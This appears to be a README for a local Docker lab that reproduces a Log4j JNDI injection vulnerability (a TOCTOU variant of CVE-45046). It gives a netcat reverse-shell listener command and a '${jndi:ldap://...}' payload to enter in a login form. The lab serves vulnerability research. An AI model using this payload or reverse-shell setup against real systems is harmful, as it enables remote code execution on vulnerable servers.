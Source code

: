 # Setup

Do the following:
1. In a new terminal, `docker-compose up cve-45046-server`
1. In a new terminal, run `docker-compose up modified-alpine`
1. In a new terminal, run `nc -lvnp 9001`. This sets up the netcat listener for the reverse shell.
1. Go to `localhost:8080`
1. Input `${jndi:ldap://localhost:1389/a}` into the username field. The password can be anything.

Alternatively, run the bash script `./cve45046.sh` for a quick-and-easy setup. However, running the bash script makes it such that you do not see any useful output.

A reverse shell should be spawned. The above PoC demonstrates the TOCTOU attack.

# Modifications Made

Modifications were made only to the `sendResult` function for the LDAP server. This was as outlined in the report.
![](./images/a.png)